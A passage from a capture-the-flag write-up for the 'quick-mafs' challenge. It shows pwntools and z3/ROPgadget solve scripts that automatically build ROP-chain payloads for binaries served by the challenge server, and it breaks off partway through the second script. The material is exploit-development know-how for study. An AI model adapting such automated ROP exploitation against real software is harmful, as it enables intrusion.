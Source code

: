 ```py
# And we're done!
return chain
```

After modifying the template code to use this procedure, running the code and waiting for a bit, we soon end up with the flag!

### Solve Scripts
```py
# script.py
from pwn import *
import re
from solve import solve

context.log_level = 'debug'

def pwn():
    p = remote("tamuctf.com", 443, ssl=True, sni="quick-mafs")

    for _ in range(5):
        instructions = p.recvline() # the server will give you instructions as to what your exploit should do
        bites = p.recvline().rstrip()

        # Error (wrong answer, or connection was closed).
        if bites.startswith(b'sorry') or bites.startswith(b'Traceback'):
            break

        # Save bytes to a file.
        with open("elf", "wb") as file:
            file.write(bytes.fromhex(bites.decode()))

        print(f'{instructions=}')

        # Parse input and get target value.
        m = re.search(r'call print\(\) with rax = 0x([0-9a-f]+)', instructions.decode())
        target = int(m.group(1), 16)
        print(f'{target=:#x}')

        payload = solve(target, gadget_limit=20)
        p.sendline(payload.hex().encode())

    p.interactive()

try:
    pwn()
except EOFError:
    pass
```

```py
# solve.py
from pwn import *
import re
from z3 import *
from functools import reduce

from ropgadget.args import Args as ropargs
from ropgadget.core import Core as ropcore


def is_good_gadget(g):
    return g['gadget'].startswith('lea rbx') and g['gadget'].endswith('ret')

```